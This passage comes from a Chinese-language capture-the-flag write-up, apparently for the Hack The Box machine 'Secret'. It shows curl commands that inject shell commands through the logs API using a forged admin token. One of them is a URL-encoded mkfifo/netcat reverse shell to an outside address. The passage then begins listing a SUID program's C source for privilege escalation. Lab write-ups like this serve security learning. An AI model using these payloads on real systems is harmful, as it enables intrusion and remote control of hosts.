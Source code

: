 ```bash
curl 'http://secret.htb/api/logs?file=;id' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWU2MmM4MjJiODI1ZTA0NmIwNzFiYTIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InB5aHB5aEBweWhweWguY29tIiwiaWF0IjoxNjQyNDc0NjQyfQ.C-80kPcZ5PSO1qK-VNL1m4PACDJO8jJ-qPMrTp19u_A'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/39cd1b3ae0744ea783b6dfe4775a5e43.png)
那我们就可以反弹一个shell到本地终端上了

```bash
curl 'http://secret.htb/api/logs?file=;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%2010.10.14.26%204444%20%3E%2Ftmp%2Ff' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWU2MmM4MjJiODI1ZTA0NmIwNzFiYTIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InB5aHB5aEBweWhweWguY29tIiwiaWF0IjoxNjQyNDc0NjQyfQ.C-80kPcZ5PSO1qK-VNL1m4PACDJO8jJ-qPMrTp19u_A'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/91a92e66d3d8430b83ab8c3b7f961162.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/22ae641b17d34a9eaab0ac356d0e3032.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们首先查找具有执行权限的文件，引起我注意的是`/opt/count`这个文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/e850dd03ff7d47fbb92504de53f3bfc7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
进入opt目录后，发现存在一个`code.c`文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/1148c32238e347d6a410e8666df9bb43.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <dirent.h>
#include <sys/prctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <linux/limits.h>

void dircount(const char *path, char *summary)
{
    DIR *dir;
    char fullpath[PATH_MAX];
    struct dirent *ent;
    struct stat fstat;

    int tot = 0, regular_files = 0, directories = 0, symlinks = 0;

    if((dir = opendir(path)) == NULL)
    {
        printf("\nUnable to open directory.\n");
        exit(EXIT_FAILURE);
    }
    while ((ent = readdir(dir)) != NULL)
    {
        ++tot;
        strncpy(fullpath, path, PATH_MAX-NAME_MAX-1);
        strcat(fullpath, "/");
        strncat(fullpath, ent->d_name, strlen(ent->d_name));
        if (!lstat(fullpath, &fstat))
        {
            if(S_ISDIR(fstat.st_mode))
            {
                printf("d");
                ++directories;
            }
            else if(S_ISLNK(fstat.st_mode))
            {
```